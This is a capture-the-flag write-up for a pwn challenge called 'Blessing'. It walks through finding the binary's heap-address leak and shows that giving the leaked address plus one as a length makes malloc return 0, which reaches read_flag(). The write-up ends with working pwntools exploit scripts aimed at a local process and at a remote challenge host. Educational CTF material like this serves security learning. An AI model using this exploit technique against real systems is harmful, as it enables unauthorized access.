

# Blessing

Class: pwn
Status: Done



So let’s find what have the .zip it returns us the next files


Well we check the security and get more info about our binary


Okay we’ll execute our binary 


Okay, that’s interesting let’s check what’s going on with gef


We have all those functions, first we check the main() in ghidra


Renaming some variables look like this


We need to get *malloc_var == 0 and we could obtain our flag something interesting is the instruction printf(”%p”, malloc_var); maybe we could use later, but first we need to talk ‘bout how malloc works

> malloc()
> 
> 
> 
> The malloc() function allocates size bytes and returns a pointer to the allocated memory.  The memory is not initialized.  If size is 0, then malloc() returns a unique pointer
> value that can later be successfully passed to free().  (See "Nonportable behavior" for portability issues.)
> 
> RETURN VALUE
> The  malloc(),  calloc(), realloc(), and reallocarray() functions return a pointer to the allocated memory, which is suitably aligned for any type that fits into the requested
> size or less.  On error, these functions return NULL and set errno.  Attempting to allocate more than PTRDIFF_MAX bytes is considered an error, as an object that  large  could
> cause later pointer subtraction to overflow.
> 

There’s soomething interesting in our code.

When we execute the binary it prints the address of malloc like this


we can take this like a leaked address and give us an idea

## Vector of attack

The goal is to call read_flag() . To do so, we need to enter into if(*malloc_var == 0)
The only place we have access over this address, is where: *(**(undefined8 *) ((long)song+ (length -1)) = 0; Well, we don't have exact access there, but we can use the leaked address. If we enter the leaked
address + 1 as size, it will result in a negative number, making malloc fail and return 0. 

## Script

I create the next script to test in local let’s check if it works

```python
from pwn import *
import re
from termcolor import colored

p = process('./blessing')

p.recv()
p.recvuntil(": ")
data = p.recvuntil("length: ").decode()

# Extract leaked_addr
match = re.search(r'0x[0-9a-fA-F]+', data)
if not match:
    print(colored(f"[!] ERROR.", 'red'))
    exit()

leaked_addr = int(match.group(0), 16)
payload = str(leaked_addr + 1) 

# Send payload
p.sendline(payload)
p.interactive()
```


Final script

```python
from pwn import *
import re
from termcolor import colored

#p = process('./blessing')
p = remote("94.237.121.185", 46167)
p.recv()
p.recvuntil(": ")
data = p.recvuntil("length: ").decode()

# Extract leaked_addr
match = re.search(r'0x[0-9a-fA-F]+', data)
if not match:
    print(colored(f"[!] ERROR.", 'red'))
    exit()

leaked_addr = int(match.group(0), 16)
payload = str(leaked_addr + 1) 

# Send payload
p.sendline(payload)
p.interactive()
```

